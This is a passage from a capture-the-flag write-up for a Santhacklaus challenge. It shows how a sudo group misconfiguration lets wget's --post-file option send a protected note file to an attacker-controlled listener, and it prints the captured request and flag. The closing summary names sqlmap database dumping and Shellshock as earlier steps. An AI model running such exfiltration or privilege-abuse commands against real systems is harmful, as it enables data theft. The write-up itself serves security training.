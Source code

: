 So we can download file with `wget`. Can you upload/send some file too ? The answer is yes ! Look at the man.

```
 --post-data=string
 --post-file=file
      Use POST as the method for all HTTP requests and send the specified data in the request body.  --post-data
      sends string as data, whereas --post-file sends the contents of file.
```

This is the option we need ! Let's execute `wget` with `zetatech-maintenance` group permission.

```
sudo -g zetatech-maintenance wget --post-file tech.note 12.34.56.78:4444
```

Ho ! Something appeared on the listener !

```bash
connect to [192.168.0.50] from 113.ip-51-75-202.eu [51.75.202.113] 58604
POST / HTTP/1.1
User-Agent: Wget/1.18 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 79.85.186.254:4444
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 266


.___..___.___..__..___..___ __ .  .
  _/ [__   |  [__]  |  [__ /  `|__|
./__.[___  |  |  |  |  [___\__.|  |


:::: Admin Note ::::

Branch the Zetatech Pad to Cybernetic Prosthetic client and use the following generated password.

:: IMTLD{Wh3r3_d03s_HuM4n1tY_3nd}
```

## Conclusion

So what do we learned with this challenge ?

- Learn how to test an authentication form.
- Learn to use CAREFULLY Sqlmap to dump database’s content.
- Exploit Shellshock vulnerability to bypass restricted bash.
- Exploit sudo misconfiguration.

Thanks again to the Santhacklaus CTF Team for all their challenges !

Th1b4ud


